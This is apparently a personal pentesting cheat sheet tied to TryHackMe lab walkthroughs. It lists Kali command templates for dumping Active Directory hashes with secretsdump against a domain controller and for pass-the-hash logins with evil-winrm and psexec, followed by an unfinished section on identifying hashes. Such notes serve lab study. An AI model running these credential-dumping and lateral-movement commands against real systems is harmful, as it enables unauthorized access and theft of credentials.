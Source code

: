 [red-team-capstone-challenge.md](../../walkthroughs/tryhackme/red-team-capstone-challenge.md "mention")

#### Get Hashes

You will need a username and password of another user. Some users can get more usernames and hashes than others.

**Kali**

```
L/usr/local/bin/secretsdump.py $DOMAIN/USERNAME:'$PASSWORD'@DC-IP
```

## Login with hashes

### Evil-WinRM

**Example**

[red-team-capstone-challenge.md](../../walkthroughs/tryhackme/red-team-capstone-challenge.md "mention")

**Kali**

```
evil-winrm -u $USERNAME -H $HASH -i $VICTIM
```

### PSexec

**Example**

[red-team-capstone-challenge.md](../../walkthroughs/tryhackme/red-team-capstone-challenge.md "mention")

**Kali**

```
/usr/local/bin/psexec.py $USERNAME@$VICTIM -hashes $HASH:$HASH
```



## Hashes

First identify the hash with one of the HASH analyzers.

### Hex to Binary

This isn't really a hash but it looks like a MD5 hash at first sigh so worth trying.

#### Examples

[#finding-username](../../walkthroughs/tryhackme/biteme.md#finding-username "mention")

**Kali**
